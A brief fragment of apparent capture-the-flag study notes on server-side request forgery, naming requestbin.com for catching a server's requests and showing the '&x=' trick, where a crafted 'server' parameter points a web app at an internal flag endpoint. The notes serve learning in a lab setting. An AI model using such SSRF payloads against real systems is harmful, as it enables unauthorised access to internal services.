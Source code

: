 catch HTTP requests from a server:
```
requestbin.com
```

Using the `&x=` trick
```
https://server.website.thm/flag?id=9

https://website.thm/item/2?server=server

https://website.thm/item/2?server=server.website.thm/flag?id=9&x=
```